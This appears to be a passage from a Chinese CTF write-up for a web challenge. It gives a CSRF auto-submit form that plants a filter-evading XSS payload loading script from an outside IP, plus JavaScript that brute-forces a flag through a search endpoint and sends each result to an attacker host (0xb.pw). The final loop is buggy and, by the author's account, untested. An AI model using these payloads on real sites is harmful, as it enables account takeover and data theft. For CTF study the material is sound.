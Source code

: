 后来发现提交的链接是会被点击的，那么思路很简单了，就是构造一个自动提交来修改查看人的个人信息，然后执行js

payload
```
<html>
<head>
    <script src="jquery-3.1.0.min.js"></script>
</head>

<body>
<form action="http://58.213.63.30:10003/checkProfile.php" method="POST" id="profile" enctype="multipart/form-data">
        <input class="form-control" name="nick" id="nick" />
        <input class="form-control" name="age" id="age" />
        <input class="form-control" name="address" id="address" />
</form>
<script>
$("form input:eq(0)").val("\<scriscriptpt src=http:\/\/119.29.192.14\/2\>");
$("form input:eq(2)").val('\<\/scrscriptipt\>');
$("form").submit();
</script>
</body>
</html>
```

这payload是打到后台后随便找了个人扒的，这部分很简单就不赘述了

关键是要执行什么js呢，仔细看看上面的信息，cookie是httponly的，所以我们没办法获取cookie，那么flag只有可能是存在note中的了，而note中只显示6条（听蓝猫师傅说这里是极乐净土....），search处可以查询，但是需要逐位跑，这样就需要一个脚本了...(这里有个新的问题，也就是导致我没有获得flag的最大问题...脚本执行时间有限，我使用了跑完返回的方式...结果一次都没收到，我以为是别的问题，还跑了一下note的条数)

```
这个是返回数目的payload

$.get('http://58.213.63.30:10003/search.php?keywords=%', function(result){
  $.get('http://0xb.pw?a='+ escape(result.substr(2400,30)));
})
```

还有打flag的payload
```
tab="0123456789abcdefghijklmnopqrstuvwxyz}"                                    
str=''                                                                         
$.ajaxSettings.async=false                                                     
for(i=0;i<40;i++){                                                                   
  for(i=0;i<tab.length;i++){                                                   
    flag=false                                                                 
    x=$.get('http://58.213.63.30:10003/search.php?keywords='+str+tab[i]); 
    if(x.status==404) flag=true;                                               
    if(!flag) break;                                                           
  }                                                                            
  $.get("http://0xb.pw/?a="+escape(tab[i]))
  str+=tab[i];                                                                 
} 
```

还没测试就关题目了...就这样吧


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/t2e9kvty7o8xv0kj5x7uh18d/image_1b9uuk1n36lm1gonn8bemmv99.png
